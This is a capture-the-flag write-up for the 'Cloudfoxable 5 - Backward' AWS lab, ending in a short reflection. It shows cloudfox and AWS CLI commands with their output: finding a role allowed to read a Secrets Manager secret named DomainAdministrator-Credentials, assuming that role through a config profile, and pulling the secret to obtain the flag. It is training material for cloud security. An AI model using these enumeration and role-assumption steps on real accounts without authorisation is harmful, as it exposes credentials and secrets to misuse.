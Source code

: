 # Challenge- Backwards
## Solution:

### To retrieve the flag for “Cloudfoxable 5 - Backward,” my first step was to determine who had access to the secret resource arn:aws:secretsmanager:us-west-2:ACCOUNTID:secret:DomainAdministrator-Credentials-SUFFIX.

#### I ran the following command to check for any permissions related to secrets:
cloudfox aws -p cloudfoxable permissions -v2 | grep -i secret

#### The output revealed that the Alexander-Arnold role had permission to access the secret:

│ Role │ Alexander-Arnold                │ Managed │ corporate-domain-admin-password-policy │ Allow  │ secretsmanager:GetSecretValue                                       │ arn:aws:secretsmanager:us-west-2:904233110107:secret:DomainAdministrator-Credentials-qhQX2l │

#### After identifying this, I proceeded to assume the Alexander-Arnold role. I updated my ~/.aws/config file by adding the following configuration:

vim ~/.aws/config

#### And then I added the role profile:

[profile alexander-arnold]
region = us-west-2
role_arn = arn:aws:iam::904233110107:role/Alexander-Arnold
source_profile = cloudfoxable

#### Once the configuration was saved, I tested the role assumption by running:

aws --profile alexander-arnold sts get-caller-identity

#### This command confirmed that I was now assuming the correct role:

{
    "UserId": "AROA5FCD6JJN64OEQLC5J:botocore-session-1743909295",
    "Account": "904233110107",
    "Arn": "arn:aws:sts::904233110107:assumed-role/Alexander-Arnold/botocore-session-1743909295"
}

#### Now that I was using the correct role, I used this command to retrieve the secret:

aws --profile alexander-arnold secretsmanager get-secret-value --secret-id arn:aws:secretsmanager:us-west-2:904233110107:secret:DomainAdministrator-Credentials-qhQX2l

#### The output revealed the flag:
{
    "ARN": "arn:aws:secretsmanager:us-west-2:904233110107:secret:DomainAdministrator-Credentials-qhQX2l",
    "Name": "DomainAdministrator-Credentials",
    "VersionId": "23D54215-BF3E-40F3-B985-EB03EDA320BB",
    "SecretString": "FLAG{backwards::IfYouFindSomethingInterstingFindWhoHasAccessToIt}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": "2025-02-19T00:04:11.816000-05:00"
}

#### The flag I found was: FLAG{backwards::IfYouFindSomethingInterstingFindWhoHasAccessToIt}

### Reflection
What was your approach?
My approach was to start by identifying which roles or users had access to the secret. Then, after realizing I lacked the proper permissions, I assumed the role that did have access. I used AWS CLI commands and made changes to my ~/.aws/config file to successfully retrieve the secret.

### What was the biggest challenge?
The biggest challenge was ensuring I was correctly assuming the right role. There were multiple steps involved in updating the configuration file and confirming that the permissions were set correctly.

### How did you overcome the challenges?
I solved the challenge by carefully reviewing the permissions from the cloudfox output and confirming that my profile was set up correctly. Every step required precision and checking to make sure I had the right configuration.

### What led to the breakthrough?
The breakthrough came when I successfully assumed the correct role and used the AWS CLI to retrieve the secret. Once I was sure the role assumption worked, accessing the secret was just a matter of running the command.

### How can the learning be used in the future?
This experience highlighted the importance of understanding IAM roles, secret management, and AWS CLI setup. In future tasks, this approach will be helpful when working in environments where access to resources is restricted, and it will aid in troubleshooting permission issues more effectively.


